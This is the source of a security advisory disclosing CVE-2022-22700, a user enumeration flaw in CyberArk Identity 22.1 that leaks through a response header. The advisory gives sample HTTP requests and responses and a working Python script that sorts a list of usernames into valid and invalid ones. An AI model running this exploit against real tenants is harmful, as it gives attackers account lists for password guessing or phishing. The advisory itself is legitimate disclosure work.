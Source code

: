 ```yaml
---
slug: advisories/porter/
title: CyberArk Identity 22.1 - User Enumeration
authors: Andres Roldan
writer: aroldan
codename: porter
product: CyberArk Identity
date: 2022-02-15 12:00 COT
cveid: CVE-2022-22700
severity: 5.3
description: CyberArk Identity 22.1 User Enumeration
keywords: Fluid Attacks, Security, Vulnerabilities, CyberArk, Identity
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                     |
| --------------------- | --------------------------------------------------- |
| **Name**              | CyberArk Identity 22.1 User Enumeration             |
| **Code name**         | [Porter](https://en.wikipedia.org/wiki/Cole_Porter) |
| **Product**           | CyberArk Identity                                   |
| **Affected versions** | 22.1 and below                                      |
| **Fixed versions**    | 22.2                                                |
| **State**             | Public                                              |

## Vulnerability

|                       |                                                                                                 |
| --------------------- | ----------------------------------------------------------------------------------------------- |
| **Kind**              | User Enumeration                                                                                |
| **Rule**              | [225. Proper Authentication Responses](https://docs.fluidattacks.com/criteria/requirements/225) |
| **Remote**            | Yes                                                                                             |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N                                                    |
| **CVSSv3 Base Score** | 5.3                                                                                             |
| **Exploit available** | Yes                                                                                             |
| **CVE ID(s)**         | [CVE-2022-22700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22700)                 |

## Description

CyberArk Identity versions up to and including 22.1 in the
`StartAuthentication` resource, exposes the response header `X-CFY-TX-TM`.
In certain configurations, that response header contains different, predictable
value ranges which can be used to determine wether a user exists in the tenant.

## Proof of Concept

- A request is sent with a known valid user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 143
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"admin@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 109
...
```

In the cases when the user exists, the value of `X-CFY-TX-TM`
is always less than `500`.

- A request is sent with a non existent user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 147
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"notexists@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 1492
...
```

In the cases when the user does not exist, the value of `X-CFY-TX-TM`
is always above than `1000`.

## Exploit

The following code was used to enumerate valid users:

```python
#!/usr/bin/env python
#
# Author: aroldan@fluidattacks.com

import json
import requests
import sys

URL = 'https://<customer>.my.idaptive.app/Security/StartAuthentication'
RAW_DATA =  '{"TenantId":"","User":"test@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}'
JSON_DATA = json.loads(RAW_DATA)

with open(sys.argv[1], 'r') as fd:
    USERS = [x.rstrip() for x in fd.readlines()]

for USER in USERS:
    VALUE = 10000
    PAYLOAD = JSON_DATA
    PAYLOAD['User'] = USER
    RESP = requests.post(URL, json=PAYLOAD)
    if 'X-CFY-TX-TM' in RESP.headers:
        VALUE = int(RESP.headers['X-CFY-TX-TM'])
    if VALUE < 1000:
        print(VALUE)
        print(f'[+] User {USER} exists.')
    else:
        print(f'[-] User {USER} not exists.')
```

## Credits

The vulnerability was discovered by [Andrés
Roldán](https://www.linkedin.com/in/andres-roldan/) from the Offensive
Team of Fluid Attacks.

## References

**Vendor page** <https://www.cyberark.com/resources/cyberark-identity/>

**Changelog** <https://docs.cyberark.com/Product-Doc/OnlineHelp/Idaptive/Latest/en/Content/ReleaseNotes/ReleaseNotes-Latest.htm>

## Timeline

<time-lapse
  discovered="2021-09-28"
  contacted="2022-02-05"
  replied="2022-02-16"
  confirmed=""
  patched="2022-02-28"
  disclosure="">
</time-lapse>
